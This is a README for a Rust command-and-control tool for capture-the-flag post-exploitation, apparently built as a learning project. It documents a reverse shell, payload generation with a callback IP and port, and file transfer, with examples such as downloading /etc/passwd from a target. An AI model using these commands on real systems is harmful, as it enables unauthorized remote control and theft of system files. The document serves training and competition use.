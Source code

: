 # CTF-Tools

CTF-Tools is a Rust-based console application designed for post-exploitation in CTF competitions, featuring essential
utilities for privilege escalation.

This project was built to learn and explore Rust programming.

## Features

- **Interactive reverse shell** (Based on [rustcat](https://github.com/robiot/rustcat))
- **Upload / Download**
- **Auto-reconnect** (When the client loses connection with the server)
- **Multiple client support**

## Usage

The server and the client are included in the same executable. You can download the executable from
the [releases](https://github.com/dd060606/CTF-Tools/releases)
section.

To start the server, use:

```bash
./ctf-tools
```

To start the client, use:

```bash
./ctf-tools <ip> <port>
```

## Available Commands

Here is a list of commands available:

| Command                                          |                           Description                           |                  Example                   |
|:-------------------------------------------------|:---------------------------------------------------------------:|:------------------------------------------:|
| `help (<command name>)`                          |              Displays a list of available commands              |           `help` or `help list`            |
| `shell`                                          |         Establishes a remote shell on the target client         |                                            |
| `info`                                           | Retrieves detailed information from the client. (OS, User, ...) |                                            |
| `list`                                           |                     Lists connected clients                     |                                            |
| `payloads`                                       |                    Lists available payloads                     |                                            |
| `generate <payload name> <platform> <ip> <port>` |            Generates a payload to execute CTF-Tools             |    `gen default linux 10.10.10.10 8888`    |                                            |
| `select <id>`                                    |                        Selects a client                         |                 `select 2`                 |
| `upload <local path> <remote path>`              |              Uploads a file on the target machine               | `upload /home/kali/test.txt /tmp/test.txt` |
| `download <remote path> (<output path>)`         |            Downloads a file from the target machine             |      `download /etc/passwd ./passwd`       |
| `close`                                          |       Stops the CTF-Tools process on the selected client        |                                            |
| `exit`                                           |            Terminates the CTF-Tools console session.            |                                            |

## Build

Ensure you have Rust installed. If not, download it from [rust-lang.org](https://www.rust-lang.org)

```bash
cargo build --release
```

## Legal Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool to exploit systems, networks, or data
without permission is illegal. The authors are not responsible for any misuse or damage caused by this tool. Always
obtain proper authorization before using any security tool.
